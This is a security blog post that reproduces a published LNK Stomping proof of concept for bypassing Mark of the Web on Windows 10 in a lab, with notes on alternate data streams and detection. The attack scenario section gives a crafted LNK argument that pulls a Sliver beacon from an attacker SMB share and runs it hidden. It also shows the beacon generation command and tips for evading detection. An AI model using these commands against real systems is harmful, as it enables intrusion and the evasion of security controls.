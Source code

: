 ```yaml
---
title: "LNK Stomping"
date: 2024-09-04T17:17:01-06:00
draft: false
---
```



This [PoC provided by Elastic](https://github.com/joe-desimone/rep-research) is about LNK Stomping. Currently Microsoft has not provided a CVE for this method; however, they did release CVE-2024-38212, a MotW bypass vulnerability, but only included SmartScreen, not Smart App Control (SAC). As this testing is done on Windows 10 with build number 19045, I won't be dealing with SAC anyway. The PoC can bypass both.

A quick primer on MotW from Elastic:
> When a user downloads a file, the browser will create an associated “Zone.Identifier” file in an [alternate data stream](https://www.digital-detective.net/forensic-analysis-of-zone-identifier-stream/) (ADS) known as the Mark of the Web (MotW). This lets other software (including AV and EDR) on the system know that the file is more risky. SmartScreen only scans files with the Mark of the Web. SAC completely blocks certain file types if they have it. This makes MotW bypasses an interesting research target, as it can usually lead to bypassing these security systems. Financially motivated threat groups have discovered and leveraged [multiple vulnerabilities](https://blog.google/threat-analysis-group/magniber-ransomware-actors-used-a-variant-of-microsoft-smartscreen-bypass/) to bypass MotW checks. These techniques involved appending crafted and invalid code signing signatures to javascript or MSI files.

I explained what an ADS is in a previous post [T1564.004](https://axelarator.github.io/posts/ntfs)
> A data stream that is alternate to the normal data stream. The data attribute (`$DATA`) is called the “normal” data stream or “unnamed” data stream since it can be left blank.
>     - A normal data stream looks like `$DATA:""`
>     - An alternate data stream can be `$DATA:"SecondStream"`
> - To read what’s inside an ADS
>     - `Get-Item -path <file> -stream *`
>     - `Get-Content -path <file> -stream <stream name>`
> - To add streams to a file
>     - `set-content -path <path> -stream <stream name>`
> - To search for ADS
>     - `gci -recurse | % { gi $_.FullName - stream * } | where stream -ne ':$Data'`
> - To remove ADS
>     - `remove-item -path <path> -stream <stream name>`
> - A sysinternals tool called `streams.exe` can also enumerate streams
>     - `streams <file path>`

To provide a more visual explanation, taking the PoC GithHub repo above, you can view the data streams within the ZIP file (`Get-Item`) and view the contents to see where it came from (`Get-Content`). I downloaded the ZIP directly because cloning the repo only provides a `$DATA` stream. The Git client simply does not have a Zone.Identifier ADS which can also be treated as a way to bypass MotW. 
![1.png](/lnkstomping/1.png)

What's interesting from the first screenshot is the inclusion of a SmartScreen data stream. This is a stream that provides an additional hook into the registered AV engine.

![3.png](/lnkstomping/3.png)

SysInternals also includes a tool if that command is too annoying to type out. The caveat being you can't view the content.
https://learn.microsoft.com/en-us/sysinternals/downloads/streams

![4.png](/lnkstomping/4.png)

Now rather than just using a different file type like an ISO embedded within a ZIP archive, something [Black Basta](https://www.trendmicro.com/en_us/research/22/j/black-basta-infiltrates-networks-via-qakbot-brute-ratel-and-coba.html) and numerous other threat actors have done in the past, Elastic uncovered another trivial way of evading MotW by using LNK files with non-standard target paths or internal structures. When the file is clicked, `explorer.exe` modifies the file with canonical formatting, removing the MotW label. 
In this example, I used the dot variant which appends a dot after the PowerShell executable so it looks like `~\powershell.exe.` 

```python
python lnk_stomping.py --executable c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe --arguments "-c calc" --icon folder --variant dot --output totally_legit.lnk
```

The `--icon` argument argument can either make the LNK file to appear as a folder or pdf icon. An [obfuscation method](https://attack.mitre.org/techniques/T1027/012/) threat actors use to make their files appear legit.

![5.png](/lnkstomping/5.png)

Using Eric Zimmerman's tool LECMD, the path with the dot operator can be seen
![6.png](/lnkstomping/6.png)

Since all of this was done locally, testing if it evades MotW won't work since it was never applied in the first place. Instead, I hosted this file elsewhere and download it to my Windows system and you can see below the Zone.Identifier stream attached. If you're wondering why the filename changed, the GitHub repo hosts sample files already configured with dot, path segment, and relative variants. Each of them can be recreated anyway using the Python script and supplying the appropriate variant you want to test.

![7.png](/lnkstomping/7.png)

Following execution with a successful `calc.exe` process opened, the stream is gone!
![8.png](/lnkstomping/8.png)

Viewing the LNK via LECMD again confirms Windows Explorer did indeed modify the file to fix the trailing dot.
![9.png](/lnkstomping/9.png)

### Attack Scenario

To put a little more effort into this, I modified the arguments to download a remote file and execute it to gain a Sliver beacon. I'm not trying to win any awards for defense evasion or command obfuscation but you could simplify this a bit with `psexec`. However, since `psexec` is a part of the Sysinternals suite, it would rely on the victim already having it installed which in this case isn't realistic. 

`-c net use \\192.168.98.108\kalishare /USER:anon anon; copy \\192.168.98.108\kalishare\READY_CANAL.exe; powershell.exe -WindowStyle hidden .\READY_CANAL.exe" --icon pdf --variant dot --output sliver.lnk`

The command starts by connecting to an SMB share running on the attacker system with credentials anon:anon. 

![10.png](/lnkstomping/10.png)

Next, it copies the Sliver beacon to the victim's current working directory. But in order to copy a beacon, one has to be created first. Within the sliver terminal:

`generate beacon -b 192.168.98.108 --skip-symbols --debug -j 5 -S 15 --os windows`

Without providing a name, it will create a randomly generated one which in this case is `ROYAL_CANAL.exe`. Better opsec would be to rename this as a process already present on Windows, like `svchost.exe`. It won't totally evade detection as Sliver is very well known and Windows Defender signatures will flag and purge this instantly, but it's a start. Next steps would be to implement something like [PEzore](https://iwantmore.pizza/posts/PEzor.html)

So with a beacon payload generated and an SMB share running, the last step is to start an HTTPS listener so the beacon has something to connect back to.

![11.png](/lnkstomping/11.png)

Everything's ready so it's time to execute! Following execution, Sliver got a callback. 
![12.png](/lnkstomping/12.png)

From here, it's up to the features of Sliver and any additional tools within the Armory to carry out further attacks. If noise is what you're after, you could run `seatbelt -i -- -group=system` to dump everything about the current system. Mainly Event ID's 4798 (group-membership-enumerated) and 4799 (user-member-enumerated). 
Since this is an HTTPS beacon, you'll see a lot of Sysmon event ID 3 ( Network connection detected) logs too for each task and check-in. 

For this lab, the user account is vulnerable by default and a part of the Administrators group so owning the system is quite easy.

![13.png](/lnkstomping/13.png)

### References
https://www.elastic.co/security-labs/dismantling-smart-app-control
https://github.com/joe-desimone/rep-research
https://redcanary.com/threat-detection-report/techniques/mark-of-the-web-bypass/
https://unprotect.it/technique/mark-of-the-web-motw-bypass/
